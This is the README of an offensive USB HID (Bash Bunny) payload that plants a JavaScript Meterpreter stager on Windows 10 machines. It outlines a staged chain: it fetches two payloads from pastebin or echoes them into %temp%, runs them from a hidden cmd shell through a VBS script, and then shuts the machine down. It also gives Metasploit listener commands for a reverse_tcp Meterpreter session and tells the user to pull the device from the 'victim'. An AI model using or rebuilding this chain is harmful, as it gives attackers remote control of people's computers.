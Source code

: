 JavaScript Meterpreter Stager Win x86_64

Author: subinacls
Version: Version 0.1
Target: Windows 10 x64

Description:

  - Tested successful on Win10
  - Modified from original posted code:
    - https://github.com/Cn33liz/JSMeter/blob/master/JSMeter.js
  - USB HID Attck that attempts HTTP download of two (2) additional payloads.
  - These files coinsist of:
    - BB-Meterpreter-Winx64.js -> Actual bytecode of Meterpreter Stager payload
    - inv.vbs -> creates hidden command terminal to execute commands
  - Attempts to execute the malicious payload in an automated fashion from hidden cmd prompts

Script Logic:

  - STAGE1():
    - if payload does not exist on target:
      - if inet connection:
        - Attempts HTTPS connection to pastebin
          - Grabs both payloads and save to %temp%
      - else:
        - Opens a cmd prompt, under current users context
          - Echo contents to two files:
            - BB-Meterpreter_winx64.js
            - inv.vbs
  - STAGE2():
    - Executes hidden cmdshell via inv.vbs, launching payload
  - STAGE3():
    - Shutdown 0

Configuration:

  - Listener:
    - use exploit/multi/handler
    - set PAYLOAD windows/(x64/|)meterpreter/reverse_tcp
    - set PAYLOAD windows/meterpreter/reverse_tcp
    - set LHOST 0.0.0.0
    - set LPORT 443
    - set EnableUnicodeEncoding true
    - set EnableStageEncoding true
    - set ExitOnSession false
    - exploit -j
  - BashBunny:
    - Edit JSRevMeter replacing the following:
      - RHOST =>  Remote Listening Host
      - RPORT =>  Remote Listening Port
      - FILE1 =>  Payload file1 URL, ex: http://t.co/43rg67
      - FILE2 =>  Payload file1 URL, ex: http://t.co/8ry8h0
    - Upload monilithic script to your BB

Status:

  - LED	  =>  Status/PHASE
  - Green	=>  Stage1/EXECUTING
  - Red	  =>  Stage2/EXECUTING
  - Blue  =>  Stage3/SHUTDOWN
  - OFF   =>  Remove Device from victim
